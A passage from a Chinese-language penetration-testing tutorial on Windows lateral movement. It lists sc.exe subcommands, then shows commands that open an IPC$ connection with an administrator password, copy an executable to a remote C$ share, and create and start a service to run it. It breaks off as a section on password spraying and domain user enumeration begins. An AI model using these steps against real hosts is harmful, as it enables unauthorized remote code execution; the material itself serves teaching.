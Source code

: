 ```
qmanagedaccount-查询服务是否将帐户与LSA管理的密码结合使用。
qprotectoio-----查询服务的进程保护级别。
quserservice----查询用户服务模板的本地实例。
delete ---------( 从注册表中)删除服务。
create----------创建服务(并将其添加到注册表中)。
control---------向服务发送控制。
sdshow----------显示服务的安全描述符。
sdset-----------设置服务的安全描述符。
showsid---------显示与任意名称对应的服务SID字符串。
triggerinfo-----配置服务的触发器参数。
preferrednode---设置服务的首选NUMA节点。
GetDisplayName--获取服务的DisplayName.
GetKeyName------获取服务的ServiceKeyName。
EnumDepend------枚举服务依赖关系。

```

### 创建ipc链接

```
net use \\192.168.70.16\ipc$ "admin@123" /user:administrator
```

### 复制文件

```
copy C:\Users\mb\Desktop\1.exe \\192.168.70.16\C$
```

### 创建服务

```
sc \\192.168.70.16 create test binpath= "cmd.exe /c C:\1.exe"
```

![image-20230307143037109](https://img.gyxnb.top/img/image-20230307143037109.png)

### 开启服务

```
sc \\192.168.70.16 start test
```

![image-20230307143401559](https://img.gyxnb.top/img/image-20230307143401559.png)



# Password Spraying密码喷洒攻击和域内用户枚举横向移动

## 域内用户枚举攻击原理

正常域用户登录主机，我们可以通过`net user /domain`来列举出域内的用户。
